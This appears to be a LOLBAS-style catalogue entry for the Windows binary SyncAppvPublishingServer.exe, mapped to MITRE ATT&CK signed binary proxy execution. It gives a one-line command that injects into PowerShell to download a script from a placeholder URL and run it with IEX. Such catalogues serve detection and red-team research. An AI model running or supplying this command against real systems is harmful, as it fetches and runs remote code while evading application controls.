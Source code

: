 ## SyncAppvPublishingServer.exe

* Functions: Execute

```
SyncAppvPublishingServer.exe "n;(New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
```

Acknowledgements:
* Nick Landers - @monoxgas

Code sample:
* 

Resources:
* https://twitter.com/monoxgas/status/895045566090010624

Full path:
```
C:\Windows\System32\SyncAppvPublishingServer.exe
```

Notes:
Command injection into PowerShell
Might have been fixed in newest version of Windows 10.
(Works as of 10.0.16299.371)

 
MITRE ATT&CK:
* [Signed Binary Proxy Execution](https://attack.mitre.org/wiki/Technique/T1218)

